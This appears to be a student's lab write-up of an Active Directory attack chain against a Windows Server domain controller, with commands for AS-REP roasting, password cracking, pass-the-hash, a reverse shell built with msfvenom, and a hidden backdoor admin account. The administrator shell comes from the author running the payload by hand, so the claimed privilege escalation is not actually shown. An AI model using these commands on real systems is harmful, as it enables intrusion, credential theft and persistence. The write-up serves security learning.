

# Active Directory Attack Simulation: End-to-End Compromise


## 1. Introduction

This project simulates an attack chain in a lab to demonstrate how weak Active Directory settings lead to domain compromise. Using Kali Linux and Windows Server 2019, I simulated real-world offensive techniques, including password cracking, enumeration, privilege escalation, and remote exploitation.
The primary objective of this project was to simulate an attack chain against a vulnerable Active Directory environment. The attack begins with gaining initial access through **AS-REP Roasting**, targeting user accounts with disabled Kerberos pre-authentication to extract encrypted ticket-granting responses and crack their passwords offline. Once credentials are obtained, the next goal is to **enumerate the domain structure**, gathering information about users, groups, and resources to map out the internal environment. Following successful enumeration, the aim is to **discover potential privilege escalation paths** that would allow moving from a standard user account to higher privileges. Finally, the ultimate goal is to **achieve system compromise by obtaining a remote shell as Administrator**, demonstrating complete control over the target system.

---

## 2. Environment Setup
 
For this project, I prepared a controlled lab environment using two virtual machines connected through an isolated internal network named **AD-LAB**. The attacker machine was configured with **Kali Linux**, a penetration testing distribution equipped with all necessary tools. The target machine was set up with **Windows Server 2019**, configured as a **Domain Controller** for the domain **cyberlabs.local**. Manual static IP addresses were assigned to ensure proper network communication: **192.168.1.233** for the Windows Server and **192.168.1.100** for Kali Linux. The Windows Server was installed with **Active Directory Domain Services and DNS**. I created multiple users in Active Directory, including a specific target account named **BTarget**.

**Tools Used:** Impacket Suite (GetNPUsers.py, secretsdump.py), rpcclient, smbclient, BloodHound + SharpHound, CrackMapExec, John the Ripper, msfvenom, netcat (nc)

---

## 3. Attack Flow:
> AS-REP Roasting ➞ Password Cracking ➞ RPC/SMB Enumeration ➞ BloodHound Mapping ➞ Pass-the-Hash ➞ Reverse Shell Access

---

## 4. Attack Execution

### 4.1 AS-REP Roasting & Password Cracking

**AS-REP Roasting** is a technique used to exploit user accounts in Active Directory that have the **"Do not require Kerberos pre-authentication"** setting enabled. This misconfiguration allows an attacker to request an encrypted **TGT** (**Ticket Granting Ticket**) directly from the Domain Controller without needing to send valid credentials first.

**Step 1: Requesting AS-REP Hashes**

First, I prepared a file called `users.txt` containing a list of usernames. Then, I used the `GetNPUsers.py` script from the Impacket toolkit to extract Kerberos AS-REP hashes from the Domain Controller:
```bash
impacket-GetNPUsers cyberlabs.local/ -usersfile users.txt -request -dc-ip 192.168.1.233
```
- `impacket-GetNPUsers:` Used to request AS-REP hashes for users that have Kerberos pre-authentication disabled. 
- `cyberlabs.local/:` Specifies the domain name.
- `-usersfile users.txt:` Tells the script to read usernames from the file users.txt.                
- `-request:` Tells the script to actively request TGTs for those users.
- `-dc-ip 192.168.1.233`: The IP address of the Domain Controller to target.

**Result:**
If a user is vulnerable (doesn’t require pre-authentication), their TGT will be returned in the form of a **Kerberos AS-REP hash**, which I saved into a file named `hashes.txt` for the next step:`$krb5asrep$23$BTarget@CYBERLABS.LOCAL:c4480233c4a762b114402fc9d8a53cd$7908763a4bbf19954c3d6e01038dabce6f908e529cb824d0a453e6b467096c13a676f29c0b0a8539c68f3b190c18859b1f3a61cbac5cf5996da02078a10ce78d7da8301a67a720a103e7e2097c0426cfdbb8e7f8409f59aa0247d777416a12c28bd18438a4ee9ea636950ae41c8a324654b696db2488d29d5a8add67bcda54bde2231d50b328c55af5ad3622f6bda3d332a3b75f1fdc00fc6336fb6e10e9e4adf31bccac5cf5996da02078c5c1aaa4a5f1d614b003b78c628b0bbdb59a4ce309b0a859c4c330354d096d1626eb8433e5d36d2506f6ef`

**Step 2: Cracking the Hash**

Once the hash was collected, I used **John the Ripper**, a powerful password-cracking tool, to try and brute-force the original password:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```
- `john:` Runs John the Ripper.
- `--wordlist=/usr/share/wordlists/rockyou.txt`: Specifies the rockyou.txt wordlist, one of the most widely used collections of leaked passwords.
- `hashes.txt:` This file contains the Kerberos hash retrieved earlier.

**Result:**
John the Ripper tested many passwords from the wordlist and eventually found the correct one.

**Final Result: I successfully cracked BTarget's password, it was:** **`password1`**. This confirmed that the user account was vulnerable to AS-REP Roasting due to weak password practices and a misconfigured Kerberos policy. This step gave me **valid credentials** for a real domain user.


---

### 4.2 Enumeration with RPCClient

After cracking BTarget's password, I performed **Active Directory enumeration** using the `rpcclient` tool. This tool allows interaction with **Windows RPC services**, enabling the enumeration of **domain users**, **groups**, and detailed **account information**, even without administrative privileges.
This phase is crucial because it reveals **who exists in the domain**, what groups are available, and what access levels users might have.

**Step 1: Connecting to the Domain Controller**

I connected to the RPC service on the Domain Controller using BTarget’s cracked credentials:
```bash
rpcclient -U 'CYBERLABS.LOCAL\\BTarget' 192.168.1.233
```
- `rpcclient:` The main enumeration tool.
- `-U 'CYBERLABS.LOCAL\\BTarget':` Specifies the domain and the user to authenticate with.
- `192.168.1.233:` The IP address of the Domain Controller.

**Step 2: Enumerating Domain Users**: `rpcclient> enumdomusers` : This command retrieved a list of **all domain user accounts**.
This provided insight into **real users**, including potentially **service accounts** and **privileged identities**.

**Step 3: Querying Specific User Information**: `rpcclient> queryuser 0x1f4`
The RID `0x1f4` corresponds to the built-in **Administrator account**. This command revealed:
- Password last set time  
- Logon count  
- Bad password attempts   
This kind of info is helpful for assessing **account activity**, detecting old/unused accounts, and verifying if default accounts are active.

**Step 4: Enumerating Groups**: `rpcclient> enumdomgroups`
This command returned a list of all domain groups, including **high-privilege ones** like: **Domain Admins**, **Enterprise Admins**, **Key Admins**.
These groups often control critical parts of the domain and identifying them is key for building privilege escalation paths.

**Final Result:**
- I confirmed that **BTarget** could interact with the Domain Controller using RPC.
- I listed **all domain users**, including the **Administrator** account.
- I retrieved **user attributes** and **group memberships**.
- This enumeration step strengthened my internal mapping of the Active Directory structure and helped prepare for later attacks like BloodHound analysis and SMB share discovery.



---

### 4.3 SMB Share Enumeration

After obtaining valid credentials for the **BTarget** user, I performed SMB enumeration using the `smbclient` tool. This utility allows attackers and penetration testers to connect to **Windows SMB (Server Message Block)** shares to explore file systems, retrieve configurations, and look for sensitive files even as a low-privileged domain user.

**Step 1: Listing Available Shares**

I first listed all available shares exposed by the Domain Controller:
```bash
smbclient -L //192.168.1.233 -U BTarget
```
- `-L:` List available shares on the target machine.
- `//192.168.1.233:` Target host (the Domain Controller).
- `-U BTarget:` Authenticate as user BTarget.

**Result:**
Successfully connected using `BTarget:password1`. Discovered the following default Windows shares:
- **ADMIN$:** Remote admin share (restricted)
- **C$:** Root of the C: drive (admin-only)
- **IPC$:** Inter-Process Communication
- **NETLOGON:** Contains logon scripts and domain policies (readable)
- **SYSVOL:** Holds domain-wide Group Policy Objects and configuration files (readable)

**NETLOGON** and **SYSVOL** were **accessible with standard domain user permissions**.

**Step 2: Exploring Group Policy Configuration**

`cd Policies:` I Found two key Group Policy folders:
- `{31B2F340-016D-11D2-945F-00C04FB984F9}`: Default Domain Policy
- `{6AC1786C-016F-11D2-945F-00C04FB984F9}`: Default Domain Controllers Policy 

Navigated into the first one: `cd "{31B2F340-016D-11D2-945F-00C04FB984F9}"`and discovered the following structure:
- **GPT.INI:** A versioning file that tracks Group Policy changes
- **MACHINE/:** Contains policies that apply to computers
- **USER/:** Contains policies that apply to users

**Step 4: Retrieving Important Files**

Downloaded and reviewed the GPT.INI file: `get GPT.INI`, `cat GPT.INI` : Content: `[General]`, `Version=11`
This indicates the version of the policy, updated whenever changes are made to GPO settings.


**Final Result:**
Through SMB enumeration, I was able to:
- Discover accessible shares like **SYSVOL** and **NETLOGON**
- Navigate inside GPO structures and download key files
- Confirm **post-exploitation read access** with a low-privileged domain user
- Extract important domain configuration elements used to maintain security and policy enforcement in the environment

---

### 4.4 Active Directory Mapping with BloodHound

**BloodHound** is a powerful tool designed to **visualize Active Directory relationships** and uncover **attack paths** inside domain environments. It helps penetration testers, red teamers, and auditors identify privilege escalation opportunities by analyzing permissions and object relationships across users, groups, and machines.

### Step 1: Preparing and Collecting Active Directory Data with SharpHound

I started the Neo4j database using `sudo neo4j console` and accessed the browser interface at `http://localhost:7474/browser/`, I downloaded `SharpHound.exe`. Once downloaded, I uploaded it to the target Windows Server using `smbclient //192.168.1.233/ShareTest -U BTarget`, then used `put SharpHound.exe` to place the file in the shared folder. On the Windows Server, ran Command Prompt as Administrator, and executed the collection using `SharpHound.exe -c All`, which created a ZIP file with collected AD data (e.g., `20250426134424_BloodHound.zip`). Finally, I returned to Kali, reconnected to the SMB share, and downloaded the ZIP file using `get "20250426134424_BloodHound.zip"` to prepare it for import into BloodHound.

**Final Result:**
I navigated to the **BTarget@cyberlabs.local** user node and used BloodHound to **Visualize relationships** between users, groups, and permissions, Use the "Shortest Path to High-Value Targets" feature to detect escalation paths and Identify powerful permissions like:
  - `GenericAll`
  - `GenericWrite`
  - `GetChanges` / `GetChangesAll`
This allowed me to simulate **lateral movement and privilege escalation** scenarios from BTarget to Domain Admin, just like in a real-world AD compromise.


---

### 4.5 Pass-the-Hash (PTH) Authentication

**Pass-the-Hash (PTH)** is a powerful **post-exploitation technique** that allows an attacker to authenticate to services using a **user’s NTLM hash** without needing their actual plaintext password. Once a hash is obtained (through cracking or extraction), it can be reused to access systems and services that accept NTLM authentication.
This allows lateral movement across the network without triggering password lockouts or alerts.

**Step 1: Generate the NTLM Hash of the Cracked Password**

After cracking **BTarget’s password** (`password1`), I generated its NTLM hash manually:
```bash
echo -n 'password1' | iconv -t UTF-16LE | openssl dgst -md4
```
Output example: `(stdin)= 5835048ce94ad0564e29a924a03510ef` : This is the **NTLM hash** for the plaintext password `password1`.

**Step 2: Authenticate Using CrackMapExec and the Hash**

I then used **CrackMapExec**, a post-exploitation tool, to authenticate to SMB services on the Domain Controller using only the hash:
```bash
crackmapexec smb 192.168.1.233 -u BTarget -H 5835048ce94ad0564e29a924a03510ef --shares
```
- `crackmapexec smb`: Specifies the protocol and tool.
- `192.168.1.233`: Target machine (Domain Controller).
- `-u BTarget`: Username to authenticate as.
- `-H <NTLM hash>`: The hash being passed instead of a password.
- `--shares`: Option to list accessible SMB shares.
**Authentication succeeded using only the NTLM hash.**: `I didn’t enter any password, proving that **Pass-the-Hash was successful**`.

**Step 3: Enumerating SMB Shares**

As a result of the successful authentication, I was able to:
- Access **NETLOGON** (read)
- Access **SYSVOL** (read)
- Access **ShareTest** (read/write)
These shares contain sensitive configuration files and serve as pivot points for further attacks or enumeration.

**Final Result:**
- Performed a successful **Pass-the-Hash** attack using BTarget’s NTLM hash.
- Gained access to important **SMB shares** without knowing or reusing the password.
- Achieved **stealthy lateral movement capability** a common real-world adversary tactic.

**Real-World Implication:**  
PTH attacks allow adversaries to **spread across systems silently**, reusing hash values and bypassing traditional password protections.


---

### 4.6 Reverse Shell Attack

I moved to establish **full remote control** over the Windows Server using a **reverse shell**.
A **reverse shell** allows the target machine to connect back to the attacker, creating an interactive session. This enables stealthy and persistent post-exploitation activities.

**Step 1: Generating the Reverse Shell Payload**

I used `msfvenom` to generate a Windows reverse shell executable:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o reverse_shell.exe
```
- `-p windows/shell_reverse_tcp`: Specifies the payload type (reverse shell for Windows).
- `LHOST=192.168.1.100`: Attacker’s IP address (Kali Linux machine).
- `LPORT=4444`: Listening port on the attacker's machine.
- `-f exe`: Output format as a Windows executable file.
- `-o reverse_shell.exe`: Output file name.
The payload `reverse_shell.exe` was successfully created.

**Step 2: Uploading the Payload to the Target**

I uploaded the payload to a writable share on the Windows Server. The file was placed into the `ShareTest` directory for execution.
```bash
smbclient //192.168.1.233/ShareTest -U BTarget
put reverse_shell.exe
```

**Step 3: Setting Up a Listener on Kali**

To capture the incoming reverse connection, I set up a **Netcat** listener: This made Kali ready to accept incoming shells on port 4444.
```bash
nc -lvnp 4444
```

**Step 4: Executing the Payload on Windows Server**

On the target machine I Navigated to the `ShareTest` folder and **Double-clicked** on `reverse_shell.exe`. This triggered a reverse connection back to Kali, and a full shell was established!

**Post-Access Validation Commands**: Once connected, I executed various system commands to validate full access:
```bash
whoami        # Displays the current username (Administrator).
hostname      # Shows the computer's name.
net users     # Lists all local user accounts.
systeminfo    # Provides detailed information about the operating system.
tasklist      # Lists all running processes on the system.
```
Confirmed full administrative privileges.


### 4.7 Creating a Text File (Proof of System Compromise)

To demonstrate **full read/write/execute control** over the compromised system, I created a new text file named `PWNED.txt` on the Administrator's Desktop containing a custom message. This action proved total dominance over the system and the ability to manipulate files at will.

### 4.8 Creating a Hidden Administrator Account

After gaining complete system control, I created a **persistent hidden admin account** to maintain future accessa common adversary technique.
```bash
net user GhostUser P@ssw0rd123 /add
net localgroup Administrators GhostUser /add
```
- `net user GhostUser P@ssw0rd123 /add`: Created a new user named **GhostUser** with password `P@ssw0rd123`.
- `net localgroup Administrators GhostUser /add`: Added **GhostUser** to the **Administrators** group, granting full privileges.
Successfully established a **backdoor administrative user** for persistent access.


---

**Final Result:**

- Achieved a full **reverse shell** session with Administrator rights.
- Validated control over the system via enumeration commands.
- Created a **new hidden Administrator account** ensuring long-term persistence.
- Demonstrated complete post-exploitation capabilities typical of real-world threat actors.

---

## 5. Sources

- https://github.com/fortra/impacket: Impacket GitHub: Tools for network protocol manipulation
- https://github.com/BloodHoundAD/BloodHound: BloodHound GitHub - Active Directory attack path visualization
- https://www.youtube.com/watch?v=VXxH4n684HE&list=WL&index=30&t=14314s: Active Directory attack steps (Install Windows Server 2019, Setting up domain controller/ users machines, Active Directory Attack)
- https://www.thehacker.recipes/ad/movement: Active Directory Attacks (AS-REP Roasting, Pass-the-Hash, BloodHound Collection)
- https://www.youtube.com/watch?v=Wv5snUVF2qw&list=WL&index=9: Windows SMBCLIENT Share
- https://www.youtube.com/watch?v=oVvW66zBI3I&list=WL&index=24: RPCClient enumeration
- https://tools.kali.org/tools-listing: Kali Linux Official Tools Documentation


---

## 6. Conclusion

The project successfully simulated an end-to-end domain attack starting from basic enumeration to full Administrator compromise. Key vulnerabilities exploited included insecure SMB shares, and lack of proper privilege hardening.
This exercise not only reinforced theoretical concepts but also provided hands-on experience with real-world adversary techniques, preparing me for more advanced penetration testing and security analysis tasks.
*This project was designed using a streamlined two-machine setup Kali Linux as the attacker and Windows Server 2019 as the Domain Controller to simulate a real-world domain compromise. While some scenarios involve multiple hosts, directly targeting the Domain Controller allowed me to demonstrate full end-to-end exploitation, privilege escalation, and persistence across the domain with precision and clarity.*
